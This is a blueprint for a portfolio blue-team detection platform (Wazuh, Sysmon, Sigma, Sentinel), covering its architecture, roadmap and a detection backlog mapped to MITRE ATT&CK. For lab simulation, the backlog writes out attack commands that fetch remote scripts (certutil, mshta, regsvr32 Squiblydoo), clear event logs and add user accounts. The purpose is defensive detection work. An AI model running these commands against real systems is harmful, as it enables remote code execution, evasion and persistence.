




# BlueForge Master Blueprint

**Detection Engineering and SOC Automation Platform**
Dual-stack: Wazuh (open source SIEM) + Microsoft Sentinel / Defender XDR.

Author: Ravi (Ontario, Canada). Repository: `blueforge` (private).
Purpose: a portfolio-grade blue-team platform to build gradually, showcase on GitHub, put on a
resume, and discuss confidently in interviews. Optimized for understanding, explainability,
demonstrable security skill, and clean presentation, not for feature count or complexity.

This master document consolidates the twelve design sections. Each also exists as its own file in
`docs/` for focused reading. Where a section references diagrams, the Mermaid sources live in
`diagrams/`.

---

## Table of contents

1. Project Foundation
2. Repository Structure
3. Architecture
4. Technology Stack
5. Development Roadmap
6. First 30 Days
7. Documentation Generation
8. Detection Engineering Plan
9. Python Software Design
10. GitHub Management
11. Career Application Material
12. Senior Engineer Review

Supporting documents: Installation Guide (`installation.md`), Threat Model (`threat-model.md`),
Detection Authoring Guide (`detection-guide.md`), and templates in `templates/`.

---

# 01. Project Foundation

## Name

**BlueForge** (repository: `blueforge`).

"Blue" for blue team (defense). "Forge" because the project is about *building* detections,
not just consuming them. The name reads like an internal enterprise security tool, which is
the positioning: BlueForge is the kind of platform a small SOC builds in-house to glue their
SIEM, detection content, and automation together.

## Vision

A single, understandable platform that takes raw security logs and turns them into detections,
alerts, investigations, and reports the way a real SOC does, built and operated by one analyst
who can explain every line of it.

## Mission

Give a transitioning analyst (Ravi) a working, growable environment to practice the full
detection engineering loop: collect, normalize, detect, enrich, hunt, report, and measure
coverage against MITRE ATT&CK, using both an open-source SIEM (Wazuh) and the Microsoft stack
(Sentinel / Defender XDR / KQL).

## Problem statement

Most junior candidates can talk about tools but cannot show the loop that connects them. They
have watched a Wazuh install video and written one Sigma rule, but they cannot answer "what
happens between a log line arriving and an analyst deciding it is an incident?" BlueForge exists
to make that loop concrete, versioned, and demonstrable.

Concretely, it solves four gaps:

1. **Format chaos.** Windows, Sysmon, Linux, and Wazuh all describe the same events with
   different field names. Without normalization, every detection is tied to one log format.
2. **Detection sprawl.** Rules get written in an ad-hoc way with no IDs, no MITRE mapping, no
   tests, and no record of false positives. BlueForge treats detections as versioned code.
3. **Manual triage.** Pulling IOCs out of an alert, looking them up, and writing a report is
   repetitive. That is exactly what automation should own.
4. **No coverage story.** "How good is your detection coverage?" is unanswerable without a way
   to map rules to ATT&CK. BlueForge produces a coverage count from the rules themselves.

## Target users

Primarily the author, as a learning and portfolio platform. Secondarily, the archetype it is
modeled on: a junior SOC analyst or detection engineer at a small-to-mid organization who owns
detection content and light automation on top of an existing SIEM.

## Why this project matters (for the career goal)

The Canadian entry-level market (Toronto, Waterloo, Ottawa) is competitive and Microsoft-heavy.
Employers screen for people who can do the work, not just name the tools. BlueForge is evidence
of exactly the day-one skills a SOC wants: reading logs, writing and testing detections, mapping
to ATT&CK, triaging with structure, and automating the boring parts. It also pairs directly with
the SC-200 certification through the Sentinel/KQL parity track.

## Similar industry tools (and where BlueForge sits)

BlueForge is not trying to replace these; it borrows their good ideas at a scale one person can
own and explain.

| Tool | What it is | What BlueForge borrows |
|------|-----------|------------------------|
| Wazuh | Open-source SIEM/XDR | Log collection, agent model, rule + MITRE mapping |
| Sigma | Generic detection rule format | The rule structure and the "write once" philosophy |
| Microsoft Sentinel | Cloud SIEM with KQL | Analytics rules, ASIM-style normalization, automation playbooks |
| Elastic / ELK | Search + detections | Common schema idea (ECS) |
| TheHive / Cortex | Case management + enrichment | Enrichment and report generation patterns |
| Atomic Red Team | Attack simulation library | Safe, documented attack tests to generate telemetry |

## What makes BlueForge different

It is deliberately small enough for one person to understand end to end, but structured like real
software: a normalized schema, versioned detections with tests and MITRE mappings, a documented
mini detection engine (so nothing is a black box), automation for triage, and dual-stack parity
between open-source (Wazuh) and Microsoft (Sentinel/KQL). The optimization target is not feature
count. It is understanding, explainability, demonstrable skill, and a clean GitHub presence.


---

# 02. Repository Structure

The layout follows conventions a reviewer expects from a professional open-source security
project, so it reads as credible at a glance. Every folder has one job.

```
blueforge/
  README.md                 Front door: what, why, quickstart, architecture summary
  LICENSE                   MIT
  SECURITY.md               Responsible-use policy for detection/offensive content
  CONTRIBUTING.md           Workflow, commit convention, how to add a detection
  CODE_OF_CONDUCT.md        Standard conduct statement
  CHANGELOG.md              Keep a Changelog format, SemVer
  Makefile                  make install / lint / test / run
  pyproject.toml            Package metadata, ruff/mypy/pytest config, CLI entry point
  requirements.txt          Runtime deps (intentionally small)
  requirements-dev.txt      Dev/test/lint deps
  .env.example              Documented env vars; copy to .env (never committed)
  .gitignore                Excludes secrets, raw logs, caches
  .pre-commit-config.yaml   Lint/format/secret-scan before every commit

  .github/
    workflows/ci.yml        Lint + type-check + test on push/PR; validate detections
    ISSUE_TEMPLATE/         bug, feature, and new-detection templates
    PULL_REQUEST_TEMPLATE.md
    labels.yml              Label taxonomy (type/area/phase)

  src/blueforge/            The Python package (see docs/09)
    schema.py               The common Event model (the platform contract)
    config.py               Env-based configuration
    logging_config.py       Central logging
    cli.py                  Command line interface (the glue)
    collectors/             Acquire raw logs (sample file, later evtx/syslog/wazuh-api)
    normalizer/             Map raw formats -> Event
    detections/             The Sigma-style detection engine
    enrichment/             IOC extraction + threat intel lookups
    reporting/              Incident report generation
    utils/                  Small shared helpers

  detections/               Detection CONTENT (data, not code)
    sigma/                  Vendor-neutral rules (bf-000N.yml) + README
    wazuh/                  local_rules.xml for the Wazuh manager
    sentinel/               KQL analytics rules for the Microsoft stack

  docs/                     This blueprint + guides, playbooks, templates
    diagrams-source (../diagrams)   Mermaid sources for architecture/data-flow/network
    templates/             Reusable templates (detection, playbook, lab, lessons)

  diagrams/                 Mermaid: architecture, data-flow, network, component
  labs/                     Reproducible attack/detection labs + Wazuh docker lab
  examples/                 Small synthetic sample logs (used by tests and demos)
  tests/                    pytest suite
  scripts/                  validate_detections.py, attack_coverage.py
  screenshots/              Portfolio evidence (lab runs, alerts, dashboards)
```

## Why split `src/blueforge/detections/` (code) from `detections/` (content)?

Because they change for different reasons and by different skills. The *engine* is Python that
rarely changes. The *rules* are security content you add to constantly. Keeping content out of
the package means you can browse, diff, and review detections on GitHub like the security
artifacts they are, and a non-Python reviewer can still read them.

## Why `src/` layout instead of a flat package?

The `src/` layout forces you to install the package to import it, which catches "works on my
machine because of the current directory" bugs and matches how the code runs in CI and for a
real user. It is the current Python packaging best practice.


---

# 03. Architecture

## High-level architecture

BlueForge is a linear pipeline with two clearly separated halves: an **infrastructure** half
(the lab and Wazuh that produce logs) and a **software** half (the Python that processes them).
The Microsoft stack is an optional parallel track for Sentinel/KQL parity.



Why a pipeline and not something fancier: a pipeline is the honest shape of the problem (data
moves one direction, stage by stage), and it is the easiest thing to explain and test. Each stage
has a single responsibility and a typed interface (`Event`), so any stage can be replaced without
touching the others.

## Component diagram



Everything points at `schema.Event`. That is intentional: the schema is the contract, and it is
the one file you should read first to understand the whole system.

## Data flow (one event, end to end)



## Network diagram (lab)



The lab uses a host-only network so simulated attacks never touch the real network or the
internet. This is a deliberate safety and containment decision, and a good thing to say out loud
in an interview: you understand blast radius.

## Why each component exists, alternatives, trade-offs

**Collectors.** Exist because acquiring data is a distinct job from understanding it. Alternative:
have each parser read files directly. Rejected because it couples detection code to file formats.
Trade-off: one extra layer, but adding a log source becomes trivial.

**Normalizer + common schema.** The heart of the design. Alternative: write detections per log
format. Rejected because it multiplies rule maintenance by the number of formats. Trade-off: you
must design the schema up front and maintain mappers, but you write each detection once. This is
exactly what Elastic (ECS) and Sentinel (ASIM) do.

**Detection engine (custom mini-Sigma).** Exists so you can explain precisely how a rule fires.
Alternative: use the full `pySigma` library. Rejected for now because a black box you cannot
explain is worthless in an interview; the custom engine is ~120 lines and covers the common
operators. Trade-off: it supports a subset of Sigma, not the whole spec. Documented as such, and
the real Sigma files remain valid for use with pySigma later.

**Enrichment.** Exists because an alert without context is just noise. Threat-intel calls are
optional and degrade gracefully (no API key = "unknown"), so the core runs offline and tests stay
deterministic. Alternative: block on live lookups. Rejected because it makes the tool fragile.

**Reporting.** Exists because an analyst's real deliverable is a clear write-up. Markdown was
chosen because it renders on GitHub, pastes into a ticket, and converts to PDF.

**Wazuh as the SIEM core.** Chosen because it is free, realistic, runs on the existing VMs, maps
rules to MITRE natively, and gives genuine enterprise-tool experience. Alternative: Elastic
Security or Splunk Free. Wazuh wins on ease of self-hosting and MITRE mapping. Trade-off: less
market share than Splunk, mitigated by the Sentinel/KQL parity track.

**Microsoft Sentinel parity (optional track).** Exists to align with SC-200 and the Canadian
Microsoft-heavy market. Kept optional because it needs an Azure subscription. Trade-off: cost and
trial limits, so it is a Phase 4+ concern, not a dependency of the core.


---

# 04. Technology Stack

Every choice below is optimized for one thing: that Ravi can understand it and defend it in an
interview. Nothing is included because it is trendy.

## Language: Python 3.10+

Why: it is the SOC automation lingua franca, it is what Ravi is already learning, and it reads
close to pseudocode so the whole codebase stays explainable. Why not Go or Rust: faster at
runtime, but slower to write, less common in SOC tooling, and a worse fit for a beginner-to-
intermediate author. Why 3.10+: modern type hints (`X | None`) that make the code self-documenting.

## Core libraries (kept small on purpose)

| Library | Job | Why this one |
|---------|-----|--------------|
| pydantic v2 | Validate the `Event` schema and config | Industry standard, great errors, fast |
| PyYAML | Load Sigma rules and config | Sigma is YAML; ubiquitous |
| click | Build the CLI | Simplest way to a clean, documented CLI |
| rich | Readable tables and logs in the terminal | Makes demos and screenshots look professional |
| jinja2 | Render incident report templates | Standard templating; separates format from logic |
| requests | Threat-intel HTTP calls | The most widely understood HTTP client |
| python-evtx | Parse Windows .evtx (Phase 2+) | Pure-Python evtx reader, no Windows needed |

Why so few dependencies: every dependency is something you must be able to explain and a potential
supply-chain risk. A short list is a feature, not a limitation.

## Security tooling

- **Wazuh** (SIEM/XDR core): collection, agents, rules, MITRE mapping, dashboard.
- **Sysmon** (Windows endpoint telemetry): the richest free source of process/network/registry
  events; the foundation of most endpoint detections.
- **Sigma**: the vendor-neutral rule format the detection content is written in.
- **MITRE ATT&CK**: the framework every detection maps to.
- **Atomic Red Team style tests**: safe, documented attack simulations to generate telemetry.
- **Microsoft Sentinel / Defender XDR + KQL** (optional track): cloud SIEM parity for SC-200.

## Storage

Files, not a database. Detections are YAML/XML files in git. Sample logs are JSON Lines. Reports
are Markdown. Why: for this scale, the filesystem plus git *is* the database, and it gives free
versioning, diffing, and review. A database would add operational weight with no benefit at the
portfolio scale. If volume ever demanded it, the natural next step is SQLite (still one file, still
in git-adjacent tooling), and that is a good thing to mention as "what I would do at scale."

## Testing

- **pytest** for unit tests, **pytest-cov** for coverage.
- Why: it is the default in modern Python, fixtures keep tests readable, and green tests on GitHub
  are a credibility signal.

## Quality tooling

- **ruff** (lint + format): one fast tool replacing flake8, isort, and black.
- **mypy** (static types): catches whole classes of bugs before runtime and documents intent.
- **pre-commit**: runs the above plus a private-key scanner before each commit, so the public-
  facing history stays clean.

## CI/CD

**GitHub Actions.** Why: native to GitHub, free for this use, and the green check on every PR is
visible proof the project is maintained. The pipeline lints, type-checks, tests on Python 3.10 to
3.12, and validates that every detection rule parses. No CD (deployment) because there is nothing
to deploy; this is a toolkit and a lab, not a hosted service. Saying "I deliberately did not add
deployment because it would be complexity without value" is a stronger answer than a fake pipeline.

## Deployment / run model

Run locally in a virtualenv (`make install`), or point it at logs exported from the Wazuh lab.
The Wazuh stack itself runs either on VMs or via the docker lab in `labs/`. There is no cloud
requirement for the core, which keeps cost at zero.


---

# 05. Development Roadmap

Assumptions: Ravi works full time, roughly 1 to 2 hours on weekdays and more on weekends. Estimates
are honest ranges of focused hours, not calendar time. The rule is that the project is shippable and
demoable at the end of every phase. Never leave `main` broken.

## Phase 0 - Foundation
- **Goals:** stand up the repo, docs, CI, and a working lab that produces logs.
- **Skills learned:** git/GitHub workflow, project structure, Wazuh + Sysmon install, VM networking.
- **Estimated hours:** 12 to 18.
- **Deliverables:** this repo scaffold pushed; Wazuh manager + one agent running; Sysmon logging;
  first sample logs captured; CI green.
- **Definition of done:** `make install && make test` passes locally and in CI; a Sysmon event from
  the Windows VM is visible in the Wazuh dashboard; README quickstart works from a clean clone.
- **GitHub milestone:** `Phase 0: Foundation`.
- **Resume value:** "Built and documented a self-hosted Wazuh + Sysmon detection lab with CI."

## Phase 1 - MVP
- **Goals:** collect one log source, normalize it, and fire the first three detections end to end.
- **Skills learned:** log normalization, common schema design, first Sigma rules, pytest.
- **Estimated hours:** 15 to 20.
- **Deliverables:** SampleCollector + normalizer for Sysmon; 3 to 5 Sigma rules with tests;
  `blueforge detect` prints matches; first auto-generated report.
- **Definition of done:** running `blueforge detect` on sample logs fires the expected rules and
  writes a Markdown report; every rule has a passing test and a MITRE mapping.
- **GitHub milestone:** `Phase 1: MVP`.
- **Resume value:** "Designed a normalized event schema and a tested detection pipeline in Python."

## Phase 2 - Detection Engine
- **Goals:** grow to 20+ detections across sources, formalize the engine, add ATT&CK coverage.
- **Skills learned:** detection engineering at volume, false-positive tuning, ATT&CK mapping, .evtx parsing.
- **Estimated hours:** 25 to 35.
- **Deliverables:** 20 Sigma rules + Wazuh `local_rules.xml`; evtx collector; `attack_coverage.py`
  report; documented FP notes per rule.
- **Definition of done:** coverage script reports 15+ unique techniques; each rule documents at least
  one false positive and an investigation step; Wazuh rules tested with `wazuh-logtest`.
- **GitHub milestone:** `Phase 2: Detection Engine`.
- **Resume value:** "Authored 20+ MITRE-mapped detections with documented tuning and tests."

## Phase 3 - Threat Hunting
- **Goals:** turn detections into hunts; simulate attacks; build timelines.
- **Skills learned:** hypothesis-driven hunting, attack simulation, timeline reconstruction.
- **Estimated hours:** 20 to 30.
- **Deliverables:** hunting query pack; 3 to 5 documented attack simulations (safe, reversible);
  timeline generator that orders events for an incident; investigation guides.
- **Definition of done:** each simulation has a matching detection and a written hunt with expected
  logs and steps; a timeline is generated from a multi-event scenario.
- **GitHub milestone:** `Phase 3: Threat Hunting`.
- **Resume value:** "Ran attack simulations and built hunts and timelines to validate detections."

## Phase 4 - Automation
- **Goals:** automate triage: IOC extraction, enrichment, report generation, and Sentinel/KQL parity.
- **Skills learned:** SOAR-style automation, API integration, threat intel, KQL, SC-200 topics.
- **Estimated hours:** 25 to 35.
- **Deliverables:** enrichment with real threat-intel lookups; end-to-end "logs in, report out"
  automation; KQL parity rules in `detections/sentinel/`.
- **Definition of done:** one command takes raw logs and produces an enriched incident report; at
  least 5 KQL rules mirror Sigma rules; API keys handled via env only.
- **GitHub milestone:** `Phase 4: Automation`.
- **Resume value:** "Automated alert triage (IOC extraction, enrichment, reporting) and built KQL parity in Sentinel."

## Phase 5 - AI Integration (optional)
- **Goals:** add a local LLM assistant for alert explanation and natural-language queries.
- **Skills learned:** local LLM integration, prompt design, safe AI-in-security patterns.
- **Estimated hours:** 15 to 25.
- **Deliverables:** optional module that summarizes an alert in plain English and suggests next
  steps, running against a local model; clearly isolated so the core never depends on it.
- **Definition of done:** the assistant explains a real alert usefully; it is off by default and the
  rest of the platform works without it.
- **GitHub milestone:** `Phase 5: AI Assistant`.
- **Resume value:** "Prototyped a local-LLM alert-explanation assistant with no data leaving the host."

## Phase 6 - Enterprise Features
- **Goals:** polish toward how a real team would run it: coverage dashboard, richer reporting, docs.
- **Skills learned:** metrics, dashboards, documentation at product quality.
- **Estimated hours:** 20 to 30.
- **Deliverables:** ATT&CK Navigator layer export; a simple coverage/metrics dashboard; hardened docs
  and a demo GIF; tagged v1.0 release.
- **Definition of done:** Navigator layer renders; README shows a demo; v1.0 tagged with release notes.
- **GitHub milestone:** `Phase 6: v1.0`.
- **Resume value:** "Shipped a documented v1.0 with ATT&CK coverage visualization and metrics."

## Total
Roughly 130 to 190 focused hours to reach a strong v1.0. At about 8 to 10 hours a week that is a
four to five month project, which is exactly the "continue improving for months" horizon you want on
a resume and in interviews.


---

# 06. First 30 Days

A concrete day-by-day plan for Phase 0 into early Phase 2. Weekdays assume about 1 to 2 hours;
weekend days assume more. If a day slips, shift the plan, do not skip the commit habit. The goal of
month one is a green, documented repo with a running lab and the first real detections.

Legend: **Task** / **Learn** / **Output** / **Commit message**.

| Day | Task | Learn | Output | Commit |
|-----|------|-------|--------|--------|
| 1 | Clone repo, read README + docs/00, run `make install` and `make test` | Project layout, venvs | Working local env | `chore: local dev environment set up` |
| 2 | Read `schema.py` and `normalizer/` end to end | Common schema idea | Notes in `docs/lessons` | `docs(lessons): notes on the common event schema` |
| 3 | Install VirtualBox, create Windows 10 VM | VM basics, host-only net | Windows VM snapshot | `docs(labs): windows vm build notes` |
| 4 | Install Sysmon with a good config (SwiftOnSecurity base) | Endpoint telemetry | Sysmon logging events | `docs(labs): sysmon install + config` |
| 5 | Stand up Wazuh manager (docker lab in `labs/`) | SIEM architecture | Wazuh dashboard up | `feat(labs): wazuh docker lab compose` |
| 6 (wknd) | Enroll the Windows VM as a Wazuh agent | Agent enrollment | Agent reporting | `docs(labs): agent enrollment walkthrough` |
| 7 (wknd) | Generate + export sample Sysmon events to JSONL | Log formats | `examples/` real capture | `feat(examples): captured sysmon samples` |
| 8 | Run `blueforge detect` on your capture | The pipeline | First real detections firing | `docs(lessons): first detection run` |
| 9 | Read `detections/engine.py`; explain it in your own words | Sigma subset | Written explanation | `docs: annotate detection engine walkthrough` |
| 10 | Write Sigma rule for T1059.001 (PowerShell) yourself | Rule authoring | New rule + test | `detection: powershell suspicious flags (T1059.001)` |
| 11 | Add a test for your rule with a sample log | pytest fixtures | Passing test | `test(detections): cover powershell rule` |
| 12 | Tune a false positive out of a rule | FP handling | Updated rule + FP note | `detection: reduce FPs on powershell rule` |
| 13 (wknd) | Simulate certutil download in the lab, capture logs | LOLBINs, T1105 | Telemetry + detection | `detection: certutil download (T1105)` |
| 14 (wknd) | Write the investigation steps for that alert | Triage workflow | Playbook draft | `docs(playbooks): certutil download triage` |
| 15 | Map all current rules to ATT&CK, run `attack_coverage.py` | ATT&CK navigation | Coverage output | `docs: attack coverage snapshot` |
| 16 | Read Wazuh `local_rules.xml`; test with `wazuh-logtest` | Wazuh rules | Verified custom rule | `detection(wazuh): powershell encoded command` |
| 17 | Add a Linux sshd brute-force correlation rule (Wazuh) | Correlation rules | Firing brute-force alert | `detection(wazuh): ssh brute force (T1110.001)` |
| 18 | Capture a brute-force in the lab (hydra against a lab VM) | Attack simulation | Alert + screenshot | `docs(labs): ssh brute force simulation` |
| 19 | Write a lessons-learned entry for week 3 | Reflection | `docs/lessons` entry | `docs(lessons): week 3 review` |
| 20 (wknd) | Build the timeline idea: order events for one incident | Timelines | Timeline draft output | `feat(hunting): naive event timeline` |
| 21 (wknd) | Write a full incident report for the certutil scenario | Reporting | Sample report in `docs` | `docs: sample incident report` |
| 22 | Add IOC extraction to your workflow, test it | Regex, IOCs | Passing IOC tests | `test(enrichment): ioc extraction edge cases` |
| 23 | Threat intel: wire AbuseIPDB (env key), handle "no key" | API integration | Enrichment verdict | `feat(enrichment): abuseipdb ip reputation` |
| 24 | Write a detection for T1218 (LOLBIN, e.g. mshta/rundll32) | Defense evasion | New rule + test | `detection: lolbin execution (T1218)` |
| 25 | Screenshot the Wazuh dashboard + a firing alert | Evidence | `screenshots/` images | `docs: add lab screenshots` |
| 26 (wknd) | Polish README: architecture image, badges, quickstart | Presentation | Stronger README | `docs: polish readme and add diagram` |
| 27 (wknd) | Open GitHub milestones + labels; file issues for backlog | Project mgmt | Organized board | `chore: seed milestones, labels, issues` |
| 28 | Add 2 more Sigma rules toward the 20-rule goal | Volume | 2 rules + tests | `detection: two new sysmon rules` |
| 29 | Write the "how I explain this project" interview note | Communication | `docs/11` personalized | `docs(career): interview walkthrough notes` |
| 30 | Retrospective: what worked, what is next (Phase 2 plan) | Reflection | Month-1 review | `docs(lessons): 30-day retrospective` |

By day 30 you have: a running lab, 8 to 12 tested detections mapped to ATT&CK, one Wazuh
correlation rule, IOC extraction and one live enrichment source, a sample incident report, lab
screenshots, and a green, well-presented repo. That is already interview-worthy.


---

# 07. Documentation Generation

Good documentation is half the portfolio value: it is the part a hiring manager actually reads.
BlueForge treats docs as first-class. This section is the index of every document type and the
reusable templates that keep them consistent.

## Document types and where they live

| Document | Location | Purpose |
|----------|----------|---------|
| README | `README.md` | Front door: what/why/quickstart/architecture |
| Master blueprint | `docs/00-master-blueprint.md` | The whole design in one file |
| Architecture | `docs/03-architecture.md` | Components, data flow, trade-offs |
| Installation guide | `docs/installation.md` | Zero-to-running setup |
| Threat model | `docs/threat-model.md` | What we defend, assets, assumptions |
| Detection guide | `docs/detection-guide.md` | How to author, test, and tune a detection |
| Investigation playbooks | `docs/playbooks/` (from template) | Step-by-step triage per alert type |
| Lab docs | `labs/*/README.md` (from template) | Reproducible attack/detection exercises |
| Lessons learned | `docs/lessons/` (from template) | Reflection log; strong interview fuel |

## Templates (in `docs/templates/`)

- `detection-template.md` - every new rule starts here.
- `investigation-playbook-template.md` - every alert type gets a playbook.
- `lab-template.md` - every attack simulation is documented reproducibly.
- `lessons-learned-template.md` - short reflection after each meaningful session.

## README template (skeleton)

A strong security-project README has, in order: one-line description, badges, a "why this exists"
paragraph, an architecture diagram, a quickstart that works from a clean clone, the repo layout,
a detection-coverage note, the roadmap, and links into `docs/`. BlueForge's own README is the
worked example; copy its structure for any future project.

## Writing standards

Lead with the answer. Prefer prose over bullet soup. For any security concept, cover four things:
why it exists, how it works, how an attacker abuses it, and how a defender detects it. Keep diagrams
in Mermaid so they live in git and render on GitHub. Never document a secret; document how to
configure one via `.env`.


---

# 08. Detection Engineering Plan

This is the detection backlog: 20 Sigma rule ideas and 20 Wazuh rule ideas, each mapped to MITRE
ATT&CK, with the log source, a way to safely generate the telemetry, and the first investigation
steps. Four Sigma rules are already implemented (`bf-0001` to `bf-0004`); the rest are the roadmap.

Design principles for every rule:
- One behavior per rule. Small rules are testable and tunable.
- Always case-insensitive on command lines (attackers vary casing to evade).
- Every rule maps to at least one ATT&CK technique.
- Every rule documents at least one false positive and one investigation step.
- Every rule ships with a sample log and a test.

## Part A: 20 Sigma rules (endpoint, mostly Sysmon)

| ID | Title | ATT&CK | Log source / key fields | How to simulate (safe) |
|----|-------|--------|--------------------------|------------------------|
| bf-0001 | PowerShell encoded command | T1059.001 | Sysmon 1: Image, CommandLine | Run `powershell -enc <base64>` in lab |
| bf-0002 | Certutil file download | T1105, T1218 | Sysmon 1: Image=certutil, CommandLine | `certutil -urlcache -f http://lab/x` |
| bf-0003 | Whoami discovery | T1033 | Sysmon 1: Image=whoami | Run `whoami /all` |
| bf-0004 | PowerShell suspicious flags | T1059.001 | Sysmon 1: CommandLine | `powershell -nop -w hidden ...` |
| bf-0005 | Mshta remote script | T1218.005 | Sysmon 1: Image=mshta, CommandLine has http | `mshta http://lab/a.hta` |
| bf-0006 | Rundll32 with URL/JS | T1218.011 | Sysmon 1: Image=rundll32, CommandLine | `rundll32 javascript:...` |
| bf-0007 | Regsvr32 scriptlet (Squiblydoo) | T1218.010 | Sysmon 1: Image=regsvr32, /i:http | `regsvr32 /s /i:http://lab/a.sct scrobj.dll` |
| bf-0008 | LSASS process access | T1003.001 | Sysmon 10: TargetImage=lsass | Run a benign handle-open test |
| bf-0009 | Scheduled task creation | T1053.005 | Sysmon 1: Image=schtasks /create | `schtasks /create ...` |
| bf-0010 | New service via sc.exe | T1543.003 | Sysmon 1: Image=sc.exe create | `sc create demo binpath=...` |
| bf-0011 | Registry Run key persistence | T1547.001 | Sysmon 13: TargetObject has \Run | Add a benign Run value |
| bf-0012 | Office spawning shell | T1566/T1204 | Sysmon 1: Parent=winword, Child=cmd/powershell | Macro that launches cmd |
| bf-0013 | WMImplant / wmic exec | T1047 | Sysmon 1: Image=wmic, "process call create" | `wmic process call create calc` |
| bf-0014 | BITSAdmin transfer | T1197 | Sysmon 1: Image=bitsadmin, /transfer | `bitsadmin /transfer ...` |
| bf-0015 | Clear event log | T1070.001 | Sysmon 1: wevtutil cl / Security 1102 | `wevtutil cl System` |
| bf-0016 | Net user account creation | T1136.001 | Sysmon 1: net user /add | `net user demo /add` |
| bf-0017 | Suspicious parent-child (svchost spawns cmd) | T1055/T1036 | Sysmon 1: Parent/Child mismatch | Custom lab process tree |
| bf-0018 | Encoded + download cradle combo | T1059.001, T1105 | Sysmon 1: CommandLine IEX+DownloadString | PowerShell download cradle |
| bf-0019 | Renamed system binary | T1036.003 | Sysmon 1: OriginalFileName != Image | Copy cmd.exe to a.exe and run |
| bf-0020 | Ngrok / tunneling tool execution | T1572 | Sysmon 1: Image=ngrok | Run ngrok in lab |

## Part B: 20 Wazuh rules (host + correlation + Linux)

Wazuh shines at correlation (many events over time) and at Linux/syslog, which complements the
endpoint-heavy Sigma set.

| ID | Title | ATT&CK | Source / logic |
|----|-------|--------|----------------|
| 100201 | PowerShell encoded command | T1059.001 | Sysmon decoder + commandLine regex |
| 100202 | Certutil download | T1105 | Sysmon: image=certutil + urlcache |
| 100203 | Whoami discovery | T1033 | Sysmon: image=whoami |
| 100210 | SSH brute force | T1110.001 | Correlate 6+ failed sshd in 120s, same src |
| 100211 | SSH success after brute force | T1110/T1078 | Failed burst then accepted from same IP |
| 100212 | New sudoers or sudo to root | T1548.003 | Linux: sudo / visudo activity |
| 100213 | Web shell file drop | T1505.003 | File integrity: new .php in web root |
| 100214 | Cron persistence | T1053.003 | Linux: crontab edits |
| 100215 | New Linux user / passwd change | T1136 | Linux: useradd / passwd |
